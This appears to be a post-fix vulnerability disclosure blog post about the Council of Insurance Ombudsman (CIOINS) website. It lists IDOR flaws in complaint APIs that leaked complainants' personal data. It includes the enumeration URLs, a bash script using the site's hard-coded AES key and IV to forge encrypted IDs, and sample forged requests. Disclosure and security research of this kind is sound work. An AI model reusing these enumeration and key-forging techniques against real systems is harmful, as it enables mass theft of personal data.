

Council of Insurance Ombudsman CIOINS website (<https://cioins.co.in>) had numerouos vulnerabilities covering several OWASP TOP 10 categories in 2024. After reporting (they don't have a direct email for this (they denied this information in the [RTI](../../rti/posts/cioins.md))), they simply masked the issue with bogus encryption with key exposed in the front-end source code.

After a followup, a proper fix was implemented but with significant delay.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [FetchComplaintDetails](#1-fetchcomplaintdetails)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 2  | [RetrieveData](#2-retrievedata)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 3  | [FetchComplaints](#3-fetchcomplaints)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 4  | [encrypted FetchComplaintDetails](#4-fetchcomplaintdetails-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 5  | [encrypted RetrieveData](#5-retrievedata-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 6  | [encrypted FetchComplaints](#6-fetchcomplaints-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: CWE-73 External Control of File Name or Path, Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. FetchComplaintDetails

This API endpoint was vulnerable to IDOR (Insecure Direct Object Reference). By accepting a serially increasing complaint ID, this API provided complainant's name, mobile, complaint text, and policy number.

No sophisticated knowledge of curl tools needed. Simply opening this in the browser was sufficient.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74100&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74101&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74102&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74103&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74104&mode=ON
```

### 2. RetrieveData

By using the mobile number obtained in the above vulnerability, this API endpoint could be used to retrieve the complainant's details including name, email, address, and date of birth.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=$$$$$$$$$$
```

### 3. FetchComplaints

This API provided a list of complaints associated with a mobile number. It returned details such as complaint ID, status, and date of filing.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?mobile=$$$$$$$$$$
```

### $$ Bogus encryption

As per the timelines in the table above, payload was merely AES encrypted and decrypted using a key and initialization vector exposed in the front-end code. The script to do it locally is as following.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
KEY=38303830383038303830383038303830
IV=38303830383038303830383038303830
# KEY=8080808080808080
# IV=8080808080808080
decrypt() {
    echo $(echo -n "$1" | openssl enc -aes-128-cbc -base64 -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -e -aes-128-cbc -base64 -K "$KEY" -iv "$IV" -nosalt)
}

for i in "74101" "74102" ; do
    echo $i
    encrypt $i
    # URL encoding
    encrypt $i | jq -sRr @uri
done
```

??? note "Online encryption using emn178.github.io"
    <https://emn178.github.io/online-tools/aes/encrypt/>

    

### 4. FetchComplaintDetails Encrypted Payload

The parameters are the same as in [FetchComplaintDetails](#1-fetchcomplaintdetails) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=evmr74Rz6KPWPjrGop6JVQ%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=tdTRukPbD1ADr581eavRWg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=54fjn5aez4hZzUb5CdphRg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=TOOqRpQioUbzVJK579jyNA%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=uRDIXscht1j4HcfI8vX6Sg%3D%3D&mode=ON
```

### 5. RetrieveData Encrypted Payload

The parameters are the same as in [RetrieveData](#2-retrievedata) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### 6. FetchComplaints Encrypted Payload

The parameters are the same as in [FetchComplaints](#3-fetchcomplaints) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### $$ Fix using OTP

After fixing, an OTP verification for every step of the process was added, i.e., an OTP is required for accessing each complaint.

```bash title="fix.sh" linenums="1"
time=$(date '+%F_%T')
curl 'https://cioins.co.in/Complaint/Track/FetchComplaintDetails' -X POST \
-H 'Cookie: .AspNetCore.Session=$$$$$$$$$$' \
--data-raw 'CompID=c1FQnlPmmmtf4mEnALGVyQ%3D%3D&mode=ON&inputOTP=GMvdPTixRnzYwJ%2BW%2BMy4iw%3D%3D' \
-o "complaint_$time.json" \
```
